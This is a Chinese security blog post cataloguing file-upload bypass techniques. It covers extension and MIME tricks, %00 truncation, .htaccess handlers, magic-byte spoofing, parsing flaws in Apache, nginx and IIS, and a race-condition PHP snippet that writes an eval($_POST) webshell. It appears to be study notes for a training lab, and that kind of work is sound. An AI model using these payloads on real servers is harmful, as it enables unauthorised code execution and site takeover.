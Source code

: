 ```yaml
---
permalink: 2019/08/26/file-upload-sumarry
tags:
  - 文件上传
layout: post
date: '2019-08-26 08:00:00'
categories:
  - web安全
  - 文件上传
home_cover: ''
title: 文件上传姿势总结
---
```


## 总体情况


![suITm38H5xWY6wJ.png](../post_images/1c3c4d70b2c122a31fa4aa03b1db8459.png)


## 判断上传漏洞类型


![ryIfTbvDO6FnzS2.png](../post_images/955dc2aa09727569d92f0e6e77c71b14.png)


## 上传绕过方法


### 前端JS校验


1.禁用js
2.修改js代码中禁止上传的白名单或黑名单
3.抓包改包


### 服务端检查文件名后缀


1.黑名单：
- 上传服务器可解析的其它格式后缀，例如php3,phtml,asa,cer等
- 修改后缀为大写，或者大小写混合
- 后缀名后面加点或者空格
- 后缀名后面加`::$DATA`
- _`.php. .`_ _(点+空格+点)
- 双写后缀名绕过：当服务器利用函数（如strireplace函数）将敏感的后缀名替换为空时，双写后缀名，如_`.pphphp`即可绕过
- 上传.7z压缩包绕过：.7z是一种压缩包文件的格式，我们上传cmd.php.7z文件，再访问该文件时能够正常访问到php页面，这属于Apache解析漏洞，Apache解析文件              时，如果后缀名不认识，则会继续想前解析，会解析到php,这就是Apache的解析漏洞
- 上传图片🐎配合文件包含利用`.htaccess`文件：内容为`SetHandler application/x-httpd-php`，上传的所有文件都会被当做php文件进行解析，前提是需要服务器相关配置开启


2.白名单：
- 上传图片🐎配合文件包含利用
- 0x00截断：原理同%00截断，只不过是通过POST方式传递参数，需要通过Burp在十六进制形式中修改
- 利用%00截断move_uploaded_file函数，只解析%00前的字符，%00后的字符不解析，通常运用在GET方式，因为GET方式传入能自动进行URL解码


### 服务端检查文件内容


1.修文件为图片头标识绕过


```json
`shell
JPEG/JPG: FF D8
PNG: 89 50
GIF: 47 49`


```


2.上传图片🐎配合文件包含


### 服务器端检查文件内容后重新渲染


参考：https://xz.aliyun.com/t/2657


POC地址：[POC](https://github.com/storysec/SecurityStudy/tree/master/upload-labs-pass-16)


### 服务器端会将文件重命名或者重新移动


代码中先上传再进行验证，发现不合格的文件，客户端返回报错之后，再进行删除。很容易想到条件竞争的利用。
使用如下的hack.php


```php
_<?php fputs(fopen("./shell.php", "w"), '<?php @eval($POST["x"]) ?>'); ?>_

```


上传hack.php，发现不合格的文件就会被unlink函数删除掉，但在多线程并发的情况下：即多次上传hack.php的同时，多次访问hack.php，就会出现hack.php成功访问执行的情况，即成功写入一句话木马。


上传后再通过rename函数重命名。我们可以观察这关的白名单中存在压缩包的后缀名


```php
var $cls_arr__extaccepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );_

```


我们可以利用条件竞争，通过多线程发送上传后缀名为.php.7z的文件的包，当服务器还未来得及将文件改名时访问上传的webshell


### 逻辑漏洞绕过


参考uploads-lab  pass-20


### 中间件解析漏洞


1.Apache
- 遇到不认识的后缀名会向前解析


2.nginx


```json
_Nginx默认是以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置 SCRIPTFILENAME。当访问 www.xx.com/phpinfo.jpg/1.php这个URL时，
$fastcgi__script__name会被设置为 “phpinfo.jpg/1.php”，然后构造成 SCRIPTFILENAME传递给PHP CGI，但是PHP为什么会接受这样的参数，并将phpinfo.jpg作为PHP文件解析呢?

这就要说到fixpathinfo这个选项了。如果开启了这个选项，那么就会触发在PHP中的如下逻辑：

PHP会认为SCRIPTFILENAME是phpinfo.jpg，而1.php是PATHINFO，所以就会将phpinfo.jpg作为PHP文件来解析了_

**漏洞形式**：

```


```php
    www.xxxx.com/UploadFiles/image/1.jpg/1.php

    www.xxxx.com/UploadFiles/image/1.jpg %00.php

    www.xxxx.com/UploadFiles/image/1.jpg/%20\0.php

```


3.IIS

- _IIS7.5的漏洞与nginx的类似，都是由于php配置文件中，开启了 cgi.fixpathinfo，而这并不是nginx或者iis7.5本身的漏洞。_
- 使用iis5.x-6.x版本的服务器，大多为windows server 2003，网站比较古老，开发语句一般为asp；该解析漏洞也只能解析asp文件，而不能解析aspx文件。目录解析(6.0)

形式：www.xxx.com/xx.asp/xx.jpg 原理: 服务器默认会把.asp，.asp目录下的文件都解析成asp文件。


形式：www.xxx.com/xx.asp;.jpg 原理：服务器默认不解析;号后面的内容，因此xx.asp;.jpg便被解析成asp文件了。 解析文件类型


IIS6.0 默认的可执行文件除了asp还包含这三种 : asa, cer, cdx


## 参考

- [https://foxgrin.github.io/posts/49857/](https://foxgrin.github.io/posts/49857/)
- [https://github.com/storysec/SecurityStudy/tree/master/upload-labs-pass-16](https://github.com/storysec/SecurityStudy/tree/master/upload-labs-pass-16)
- [http://www.storysec.com/upload-labs.html#h2-6](http://www.storysec.com/upload-labs.html#h2-6)
- https://paper.seebug.org/560/
